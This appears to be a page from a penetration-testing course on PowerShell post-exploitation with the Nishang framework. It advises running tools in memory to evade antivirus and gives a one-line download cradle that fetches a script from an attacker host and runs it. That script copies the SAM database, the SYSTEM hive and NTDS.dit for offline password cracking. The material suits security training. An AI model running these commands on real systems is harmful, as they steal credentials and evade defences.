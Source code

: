 

# Post Exploitation with PowerShell


Lets explore some other tools we can utilize for Post-Exploitation, which is where our ability to leverage
PowerShell really starts to shine



First lets explore another excellent post exploitation framework, known as Nishang, by Nikhil Mittal

Nishang brings together some of the best tools from other frameworks, in addition to Nishang-native tools
as well


# Important

As we mentioned previously about AV and the detection of PowerShell and other exploitation frameworks,
Nishang is no exception, and its various modules will likely be detected if imported directly to the target
system

Therefore, its important to make sure that most of the tools and scripts we invoke get invoked via download
cradles that support in-memory execution. For most of the examples that follow, we'll be using the 
Net.WebClient and DownloadString method to execute our scripts in memory

Once we've hosted the Nishang framework scripts on our attacker machine, we can begin



# Nishang - Gather

These Gather modules will help us get information from our target system locally, that we could potentially
use to move laterally for instance


The Copy-VSS module wil attempt to copy the SAM database using the VSS service, and if run on a domain
controller, will try and copy the NTDS.dit and contents of the system registry hive

We can try it with the following command

PS C:\> iex (New-Object Net.WebClient).DownloadString("http://attacker_url/copy-vss.ps1"); Copy-VSS


The command shown above will copy the contents of the SYSTEM registry hive and the SAM file to the current
working directory on the target

These can be cracked offline
